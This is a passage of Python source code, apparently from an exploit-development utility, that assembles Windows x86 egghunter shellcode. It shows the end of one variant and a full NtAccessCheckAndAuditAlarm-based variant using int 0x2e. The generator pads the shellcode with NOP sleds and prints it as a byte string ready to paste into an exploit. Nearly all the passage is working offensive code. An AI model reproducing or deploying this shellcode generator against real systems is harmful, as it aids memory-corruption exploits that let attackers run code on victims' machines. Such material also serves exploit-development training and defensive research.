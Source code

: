 ```
        "		mov eax, [esp+ecx] 					;"
        "		mov cl, 0xb8						;"
        "		add dword ptr ds:[eax+ecx], 0x06	;"
        "		pop eax 							;"
        "		add esp, 0x10 						;"
        "		push eax 							;"
        "		xor eax, eax 						;"
        "		ret 								;"
    )

    encoding, instructions = generate_egghunter(CODE)

    if nop_count_before > 0:
        instructions = "\\x90" * nop_count_before + instructions
    if nop_count_after > 0:
        instructions += "\\x90" * nop_count_after

    out = "[+] Egg Hunter generated successfully\n"
    out += f"Egg Hunter size: {len(encoding)}\n"
    out += f"Egg Hunter size with NOPs: {len(encoding) + nop_count_before + nop_count_after}\n"
    out += f"Egg Hunter: egghunter = b\"{instructions}\""
    return out

def egghunter_nt(egg, ntaccess):
    nop_count_before = ARGS.nopbefore
    nop_count_after = ARGS.nopafter

    if not egg or len(egg) != 4:
        print("[!] The EGG must be provided and be exactly 4 characters long.")
        return

    hex_word = string_to_hex(egg)
    little_endian = to_little_endian(hex_word)

    CODE = (

        "							 "
        "	loop_inc_page:			 "
        "		or dx, 0x0fff		;"
        "	loop_inc_one:			 "
        "		inc edx				;"
        "	loop_check:				 "
        "		push edx			;"
        f"		push 0x{ntaccess} 			;"
        "		pop eax				;"
        "		int 0x2e			;"
        "		cmp al,05			;"
        "		pop edx				;"
        "	loop_check_valid:		 "
        "		je loop_inc_page	;"
        "	is_egg:					 "
        f"		mov eax, 0x{little_endian}	;"
        "		mov edi, edx		;"
        "		scasd				;"
        "		jnz loop_inc_one	;"
        "		scasd				;"
        "		jnz loop_inc_one	;"
        "	matched:				 "
        "		jmp edi				;"
    )

    encoding, instructions = generate_egghunter(CODE)

```